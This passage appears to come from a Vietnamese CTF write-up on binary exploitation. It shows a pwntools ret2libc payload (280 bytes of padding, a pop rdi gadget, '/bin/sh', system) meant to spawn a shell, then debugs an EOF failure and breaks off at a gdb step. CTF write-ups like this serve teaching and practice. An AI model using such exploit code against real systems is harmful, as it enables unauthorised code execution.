 Vậy payload mới của ta chỉ việc padding 280 byte, sau đó là các lệnh để tạo shell:

```python
time.sleep(0.5)
sla(q, b'> ', b'3')
sla(q, b'Size: ', b'99')
payload = flat(
    b'A'*280,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym.system
    )
sa(q, b'Status: ', payload)

input()
time.sleep(0.5)
sla(p, b'> ', b'4')
p.recvuntil(b'> [+] Status: ')
```

Chạy thử thì ta thấy nó bị EOF ngay lập tức:

![](images/baby-eof.png)

Nếu chạy đúng thì sẽ tạo được shell nhưng lại bị lỗi, vấn đề có thể payload sai hoặc là do lỗi thanh ghi `xmm` của lệnh system. Attach gdb vào tiến trình p thì thấy payload vẫn hoạt động tốt:
